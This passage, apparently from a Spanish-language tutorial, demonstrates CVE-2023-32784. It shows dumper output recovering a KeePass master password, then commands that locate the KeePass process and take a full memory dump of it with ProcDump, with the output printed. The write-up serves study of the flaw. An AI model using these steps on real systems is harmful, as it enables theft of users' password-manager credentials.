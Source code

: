 ```
1.:     ●
2.:     e, Ï, £, §, , \, R, 6, ., À, U, J, ;, w, c,
3.:     c,
4.:     r,
5.:     e,
6.:     t,
7.:     p,
8.:     a,
9.:     s,
10.:    s,
11.:    w,
12.:    o,
13.:    r,
14.:    d,
Combined: ●{e, Ï, £, §, , \, R, 6, ., À, U, J, ;, w, c}cretpassword
```

Y veremos que nos la saco practicamente, pero de este resultado se puede intuir que es `secretpassword`.

### Version Terminal

Cuando el `keepass` este activo, podremos filtrar los proceso que se estan corriendo con el siguiente comando:

```powershell
tasklist | findstr KeePass
```

Info:

```
KeePass.exe                   9556 Console                    1   259.032 KB
```

Por lo que vemos el `PID` del `keepass` es el `9556`, por lo que nos descargaremos el siguiente archivo:

URL = [Download procdump](https://download.sysinternals.com/files/Procdump.zip)

Lo descomprimiremos y moveremos el ejecutable llamado `procdump64.exe` a la carpeta `keepass-password-dumper-main` y desde la terminal estando dentro de la carpeta pondremos lo siguiente para realizar un volcado del `keepass`:

```powershell
.\procdump64.exe -ma 9556 KeePass.dmp
```

Info:

```
ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[14:24:12] Dump 1 initiated: C:\Users\clipd\Desktop\CVE-2023-32784\keepass-password-dumper-main\KeePass.dmp
[14:24:12] Dump 1 writing: Estimated dump file size is 260 MB.
[14:24:12] Dump 1 complete: 260 MB written in 0.4 seconds
[14:24:13] Dump count reached.
```
